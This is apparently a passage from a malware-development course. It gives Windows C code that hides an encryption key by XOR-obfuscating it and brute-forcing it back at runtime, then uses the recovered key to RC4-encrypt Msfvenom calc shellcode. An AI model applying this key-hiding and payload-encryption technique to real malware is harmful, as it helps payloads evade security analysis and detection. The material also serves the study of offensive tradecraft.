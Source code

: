 ```

#include <Windows.h>#define HINT_BYTE 0x88unsigned char ProtectedKey[] = {
        0xD1, 0xF6, 0x7C, 0x89, 0x71, 0x8C, 0xF2, 0x89, 0xB6, 0xFC, 0x1F, 0x07, 0xFE, 0x82, 0x56, 0x66,
        0x95, 0xD2, 0x45, 0x1B, 0x9E, 0x4A, 0xFD, 0x88, 0x7E, 0x14, 0x3A, 0x9F, 0x77, 0x50, 0x19, 0xD9 };

BYTE BruteForceDecryption(IN BYTE HintByte, IN PBYTE pProtectedKey, IN SIZE_T sKey, OUT PBYTE* ppRealKey) {

        BYTE            b                       = 0;
        INT             i                       = 0;
        PBYTE           pRealKey                = (PBYTE)malloc(sKey);

        if (!pRealKey)
             return NULL;

        while (1){

                if (((pProtectedKey[0] ^ b)) == HintByte)
                     break;
                else
                     b++;

        }

        for (int i = 0; i < sKey; i++){
                pRealKey[i] = (BYTE)((pProtectedKey[i] ^ b) - i);
        }

        *ppRealKey = pRealKey;
        return b;
}

// Example calling:

// PBYTE        pRealKey        =       NULL;
// BruteForceDecryption(HINT_BYTE, ProtectedKey, sizeof(ProtectedKey), &pRealKey);

```
### **Example - RC4 Encryption**

To encrypt a payload, the plaintext key is the one used. Based on the output shown above, the plaintext key is the following:


```
unsigned char OriginalKey[] = {
        0x88, 0xAE, 0x23, 0xCD, 0x24, 0xD0, 0xA5, 0xC9, 0xE7, 0x9C, 0x3C, 0x53, 0x9B, 0xCE, 0x01, 0x30,
        0xBC, 0x7A, 0x0A, 0x2F, 0xB3, 0xFE, 0x8E, 0xBA, 0x0F, 0x34, 0x49, 0xAB, 0x12, 0xEC, 0x22, 0x61 };

```
This is the key that must be used to encrypt a payload. The encryption process will use the `Rc4EncryptionViSystemFunc032` function to encrypt the Msfvenom x64 calc shellcode with the key. Recall this process from the *Payload Encryption - RC4* module.
